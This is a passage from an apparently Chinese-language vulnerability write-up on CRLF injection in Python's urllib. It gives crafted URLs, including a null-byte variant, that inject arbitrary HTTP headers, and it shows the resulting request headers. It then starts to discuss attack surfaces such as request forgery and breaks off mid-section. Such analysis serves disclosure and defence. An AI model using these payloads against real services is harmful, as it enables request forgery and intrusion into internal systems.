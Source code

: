 然后我们使用恶意构造的地址

```
./fetch3.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo

```

返回的HTTP头就是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
X-injected: header
x-leftover: :12345
Connection: close

```

然后攻击者可以任意注入HTTP头了。

这个攻击在使用域名的时候也可以进行，但是要插入一个空字节才能进行DNS查询。比如说，下面的URL进行解析会失败的。

```
http://localhost%0d%0ax-bar:%20:12345/foo

```

但是下面的URL是可以正常解析并访问到127.0.0.1的

```
http://localhost%00%0d%0ax-bar:%20:12345/foo

```

要注意的是HTTP重定向也可以利用这个漏洞，如果攻击者提供的URL是一个恶意的web server，然后服务器可以重定向到其他的URL也可以导致协议注入。

0x02 攻击面
========

* * *

下面会讨论几个可能导致严重后果的攻击方式。当然还远远不够，攻击都需要特定的场景，有很多不同的方法可以利用，还不能确定有没有其他的利用方式。

HTTP头注入和请求伪造
------------

这个攻击方式由来已久了，但是和[以前的请求伪造](http://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)不同的是，这里仅仅是可以注入额外的HTTP头和请求方法。当然当前场景下，能够提交不同的HTTP方法和请求数据就已经很有用了，比如说原始的请求是这样的

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: close

```
